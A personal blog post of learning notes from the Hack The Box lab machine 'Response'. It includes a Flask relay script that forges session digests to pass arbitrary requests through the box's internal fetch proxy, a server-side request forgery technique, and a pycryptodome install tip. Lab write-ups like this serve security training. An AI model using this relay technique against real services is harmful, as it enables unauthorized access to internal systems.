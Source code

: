 +++
author = "Frenchie"
title = "Response HTB"
date = "2023-02-13"
description = "Response HTB"
tags = [
    "Gaming",
    "Hacking",
]
showthedate = false
+++

I can't believe how much pain we must endure to the single or double quotes.

<!--more-->


Raw data from main.js.php
```js
function get_api_status(handle_data, handle_error) {
    url_proxy = 'http://proxy.response.htb/fetch';
    json_body = {'url':'http://api.response.htb/', 'url_digest':'xx', 'method':'GET', 'session':'xx', 'session_digest':'xx'};
    fetch(url_proxy, {
            method: 'POST',
            headers: {'Content-Type':'application/json'},
            body: JSON.stringify(json_body)
...
```

Running `curl --json @jsonfilename http://proxy.response.htb/fetch` return:
```text
<title>400 Bad Request</title>
<h1>Bad Request</h1>
```

I need to search and replace `'` with `"` for the json body.

from:
```text
{'url':'http://api.response.htb/', 'url_digest':'xx', 'method':'GET', 'session':'xx', 'session_digest':'xx'}
```

to:
```text
{"url":"http://api.response.htb/", "url_digest":"xx", "method":"GET", "session":"xx", "session_digest":"xx"}

```
---
## Beautiful Proxy Server Listener from `0xdf`

```python 
from flask import Flask, request, Response
import logging
import requests
import base64
import re

logging.basicConfig(filename="example.log", level=logging.DEBUG)

mimetypes = {"css": "text/css", "js": "text/javascript"}

def get_digest(url):
    main_js = "http://www.response.htb/status/main.js.php"
    cookie = {"PHPSESSID" : url}
    response = requests.get(main_js, cookies = cookie)
    match = re.search(r"'session_digest':'([0-9a-f]*)'};", response.text)
    if not match:
        logging.error('Cannot get url digest')
        return None        
    return match.group(1)

app = Flask(__name__)
@app.route("/", defaults={"path": ""})
@app.route("/<path:path>", methods=["GET", "POST"])
def all(path):
    target = request.url
    body = {
    "url":target,
    "url_digest":get_digest(target),
    "method":request.method,
    "session":"1758934decea994651a63712478da603",
    "session_digest":"a4e0a5f871b17dad46572330edf0d22f48c9fcb804721970f275c1d6855f0d18"
    }
    if request.method == "POST":
        body["body"] = base64.b64encode(request.data).decode()
    response = requests.post("http://proxy.response.htb/fetch", json=body, proxies={"http": "http://127.0.0.1:8080"})
    data = base64.b64decode(response.json()["body"])
    ext = request.path.rsplit(".",1)[-1]
    return Response(data, mimetype=mimetypes.get(ext, "text/html"))



if __name__ == "__main__":
    app.run("", 8001)
```

Noteably, I learnt:
* logging module from ippsec.
* Class request and Response inside flask library from 0xdf.
* json.get(key, defaults) or dict.get(key, defaults).
    * Using get() method with JSON or DICT objects is useful because it allows you to safely retrieve values from an object without the risk of raising a KeyError exception if the key is not found.

---
## pycryptodome
when using `from Crypto.Cipher import AES` DO NOT use `pip uninstall pycryto`, but:
```python
pip install pycryptodome
```
> pycrypto is no longer maintained: see pycrypto.org pycryptodome is the modern maintained replacement for pycrypto

It will spit out error like `PY_SSIZE_T_CLEAN macro must be defined for '#' formats` when running code like `cipher = AES.new(key,AES.MODE_ECB)` in python3.10.

[source](https://stackoverflow.com/questions/70705404/systemerror-py-ssize-t-clean-macro-must-be-defined-for-formats)
